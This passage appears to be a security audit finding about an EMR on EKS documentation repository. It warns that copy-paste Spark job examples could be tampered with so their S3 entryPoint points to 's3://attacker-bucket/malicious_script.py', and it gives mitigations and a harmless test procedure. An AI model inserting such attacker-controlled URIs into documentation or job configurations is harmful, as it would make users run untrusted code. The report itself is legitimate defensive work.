 - Currently Implemented Mitigations:
  - None. The project is documentation and sample code, and does not inherently prevent copy-pasting of potentially malicious content.
- Missing Mitigations:
  - Implement a security review process for all documentation changes, especially code examples, to detect and prevent injection of malicious S3 URIs.
  - Add a clear warning to the documentation advising users to carefully review and validate any S3 URIs in code examples before using them, ensuring they point to trusted and expected locations.
- Preconditions:
  - An attacker needs to be able to modify the documentation files in the repository.
  - A user must copy and paste the malicious code example from the documentation and execute it in their EMR on EKS environment.
- Source Code Analysis:
  - Vulnerability is not in the source code of the project itself, but in the content of the documentation files, specifically in the code examples provided in markdown files across the `/code/content/` and `/code/tools/` directories.
  - Example of vulnerable code snippet in `/code/tools/start-job-run-converter/README.md`:
    ```markdown
    --job-driver '{
        "sparkSubmitJobDriver": {
            "entryPoint": "s3://<s3 bucket>/health_violations.py",
            ...
        }
    }'
    ```
  - By replacing `s3://<s3 bucket>/health_violations.py` with `s3://attacker-bucket/malicious_script.py`, an attacker could trick users into executing `malicious_script.py` as their Spark job.
- Security Test Case:
  - Step 1: Modify the file `/code/tools/start-job-run-converter/README.md`.
  - Step 2: Replace the legitimate `entryPoint` S3 URI in one of the code examples with a malicious S3 URI:
    ```markdown
    --job-driver '{
        "sparkSubmitJobDriver": {
            "entryPoint": "s3://attacker-bucket/malicious_script.py",
            ...
        }
    }'
    ```
  - Step 3: Ensure `s3://attacker-bucket/malicious_script.py` contains a simple script that, for example, prints a message and exits, to avoid unintended harm during testing.
  - Step 4: Commit and push the changes to the repository.
  - Step 5: As a test user, copy the modified code example from `/code/tools/start-job-run-converter/README.md`.
  - Step 6: Replace placeholder values (like `<virtual-cluster-id>`, `<execution-role-arn>`) in the copied command with valid values for a test EMR on EKS virtual cluster.
  - Step 7: Execute the copied `aws emr-containers start-job-run` command.
  - Step 8: Check the CloudWatch logs or S3 logs for the Spark job. If the job executes successfully and the logs contain the output of `malicious_script.py`, it confirms that the malicious script from the attacker-controlled S3 bucket was executed.
  - Step 9: This test case demonstrates that malicious S3 URIs can be injected and, if copy-pasted, will lead to the execution of attacker-controlled code in the user's EMR on EKS environment, confirming the vulnerability.